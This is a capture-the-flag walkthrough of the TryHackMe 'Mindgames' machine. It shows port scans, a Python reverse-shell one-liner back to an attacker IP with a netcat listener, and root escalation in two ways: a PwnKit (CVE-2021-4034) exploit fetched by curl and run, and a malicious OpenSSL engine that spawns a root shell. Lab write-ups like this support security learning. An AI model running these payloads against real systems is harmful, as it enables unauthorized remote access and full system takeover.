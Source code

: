 ## Mindgames
https://tryhackme.com/room/mindgames

## Enum
```
nmap -Pn -sC -sV -sT 10.10.21.76 -vv

Scanning 10.10.21.76 [1000 ports]
Discovered open port 80/tcp on 10.10.21.76
Discovered open port 22/tcp on 10.10.21.76
Completed Connect Scan at 20:02, 40.83s elapsed (1000 total ports)
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDffdMrJJJtZTQTz8P+ODWiDoe6uUYjfttKprNAGR1YLO6Y25sJ5JCAFeSfDlFzHGJXy5mMfV5fWIsdSxvlDOjtA4p+P/6Z2KoYuPoZkfhOBrSUZklOig4gF7LIakTFyni4YHlDddq0aFCgHSzmkvR7EYVl9qfxnxR0S79Q9fYh6NJUbZOwK1rEuHIAODlgZmuzcQH8sAAi1jbws4u2NtmLkp6mkacWedmkEBuh4YgcyQuh6jO+Qqu9bEpOWJnn+GTS3SRvGsTji+pPLGnmfcbIJioOG6Ia2NvO5H4cuSFLf4f10UhAC+hHy2AXNAxQxFCyHF0WVSKp42ekShpmDRpP
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNlJ1UQ0sZIFC3mf3DFBX0chZnabcufpCZ9sDb7q2zgiHsug61/aTEdedgB/tpQpLSdZi9asnzQB4k/vY37HsDo=
|   256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKrqeEIugx9liy4cT7tDMBE59C9PRlEs2KOizMlpDM8h
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
nmap -Pn 10.10.21.76 -p- --open --min-rate=5000

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

🏴 I have seen that code other CTF. It's Brainf*ck!.

Muuuu,I couldn't use bash shell.

![3](https://user-images.githubusercontent.com/6504854/189129213-44158cd1-14f2-4d03-8800-e31b913cdba5.PNG)
![2](https://user-images.githubusercontent.com/6504854/189130708-d06f3aba-5daf-484a-9eac-12d2d15e627e.PNG)

🏴 I tried to insert some test code, It's PHP or Python? I put PHP code failed, python code(no space) worked.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Flag
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.21.76] 45728
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"

mindgames@mindgames:~/webserver$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 6 mindgames mindgames    4096 May 11  2020 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server

mindgames@mindgames:~/webserver$ cd /home
cd /home

mindgames@mindgames:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root      root      4096 May 11  2020 .
drwxr-xr-x 24 root      root      4096 May 11  2020 ..
drwxr-xr-x  6 mindgames mindgames 4096 May 11  2020 mindgames
drwxr-x---  5 tryhackme tryhackme 4096 May 11  2020 tryhackme

mindgames@mindgames:/home$ cd mindgames
cd mindgames

mindgames@mindgames:~$ cat user.txt
cat user.txt
thm{41******************************}

mindgames@mindgames:~$ cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied

mindgames@mindgames:~$ sudo -l
sudo -l
[sudo] password for mindgames: 


mindgames@mindgames:~/webserver/resources$  ls -la /usr/bin/pkexec
 ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec

mindgames@mindgames:~/webserver$ cd ../../
cd ../../

mindgames@mindgames:~$ curl -s http://10.10.10.10/1.tar -o 2.tar
curl http://10.10.10.10/1.tar -o 2.tar

mindgames@mindgames:~$ tar -xvf 2.tar
tar -xvf 2.tar
./cve-2021-4034
./pwnkit.so
./README.md

mindgames@mindgames:~$ ./cve-2021-4034
./cve-2021-4034

# cat /root/root.txt
cat /root/root.txt
thm{19**********************}
```

### Another Path

![image](https://user-images.githubusercontent.com/6504854/189137060-cb5f5e19-301b-4076-b75b-114d18582e7c.png)

🏴 /usr/bin/openssl = cap_setuid+ep

https://gtfobins.github.io/gtfobins/openssl/#library-load

https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/

```
sudo apt install libssl-dev
vi 1.c
```
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
🏴 I saved as 1.c

```
gcc -fPIC -o 1.o -c 1.c
gcc -shared -o 1.so -lcrypto 1.o
```

```
$ curl http://10.10.10.10/1.so -o 1.so
$ openssl req -engine ./1.so
# cat /root/root.txt
thm{19************************}
#
```

Thank you for your time, Happy Hacking 😄

毎回難しい。酒のんでねよ。 😪😪😪
